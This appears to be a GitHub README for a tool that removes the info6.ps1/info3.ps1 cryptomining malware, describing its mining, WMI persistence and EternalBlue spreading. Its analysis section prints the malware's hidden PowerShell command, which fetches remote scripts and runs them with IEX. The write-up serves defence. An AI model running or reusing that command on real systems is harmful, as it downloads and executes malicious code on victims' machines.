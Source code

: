 # AntiMining-info6

#### By Carlos Ramírez López

### ABOUT
Currently, cryptocurrency mining malware with file name info6.ps1 is being propagated for architecture (X64) and info3.ps1 for architecture (x86) in Windows. This malware is divided into four parts:
1- Performance modification in the computer equipment to "high performance" through the Windows registry.
2- Mining of cryptocurrencies, increasing CPU processing between 70% and 100%.
3- Persistence in infected computers, modifications of Windows variable classes.
4- Propagation through the network taking advantage of the Eternalblue vulnerability in the SMB port 445 of shared folders, scanning the red segment of the computer equipment.



In the page www.virustotal.com, 16 of 59 antivirus detect the files info6.ps1 and info3.ps1 on February 12, 2018 as a malware, however, once the code has been executed on your computer, only 1 of 59 antivirus I detect it, but without creating a solution on the affected computers.
Malware info6.ps1 and info3.ps1
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Virus_Total1.jpg)

malware in the operating system
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Virus_total2.jpg)


### ANALYSIS
The malware is downloaded from different IP addresses by means of the script identifying the type of architecture:
#### DO NOT EXECUTE THE FALLOWING COMMAND

```
cmd /c powershell.exe -NoP -NonI -W Hidden "if((Get-WmiObject Win32_OperatingSystem).osarchitecture.contains('64')){IEX(New-Object Net.WebClient).DownloadString('http://IP /info6.ps1')}else{IEX(New-Object Net.WebClient).DownloadString('http://IP/info3.ps1')}"
```
#### The malware creates persistence stored in classes:
```
__FilterToConsumerBinding
CommandLineEventConsumer
__EventFilter –filter
```
